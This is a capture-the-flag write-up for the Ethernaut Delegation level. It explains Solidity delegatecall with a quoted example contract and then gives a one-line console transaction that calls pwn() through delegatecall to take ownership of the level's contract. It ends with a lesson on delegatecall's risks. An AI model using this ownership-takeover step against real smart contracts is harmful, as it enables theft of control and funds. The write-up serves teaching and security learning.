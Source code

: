 First, let’s have a look at what delegatecall is.

delegatecall is a low level function similar to call.
When contract A executes delegatecall to contract B, B's code is executed
with contract A's storage, `msg.sender` and `msg.value`.

Here an example taken from https://solidity-by-example.org/delegatecall/ 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

// NOTE: Deploy this contract first
contract B {
    // NOTE: storage layout must be the same as contract A
    uint256 public num;
    address public sender;
    uint256 public value;

    function setVars(uint256 _num) public payable {
        num = _num;
        sender = msg.sender;
        value = msg.value;
    }
}

contract A {
    uint256 public num;
    address public sender;
    uint256 public value;

    function setVars(address _contract, uint256 _num) public payable {
        // A's storage is set, B is not modified.
        (bool success, bytes memory data) = _contract.delegatecall(
            abi.encodeWithSignature("setVars(uint256)", _num)
        );
    }
}
```

As we can see in the example, the `delegatecall` in contract A gets 2 parameters, the signature of the `setVars()` function to be called in contract B and a parameter for the `setVars()` function.

If we compare it with the contract from the Ethernaut level, we realize, that we have to provide the signature of the `pwn()` function to contract Delegation in msg.data.

So here is what we have to do in the console of the browser:

`await sendTransaction({from: player, to: contract.address, data: web3.eth.abi.encodeFunctionSignature("pwn()")})`

And now you are the owner :) Congrats :)

### Learning:
Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.
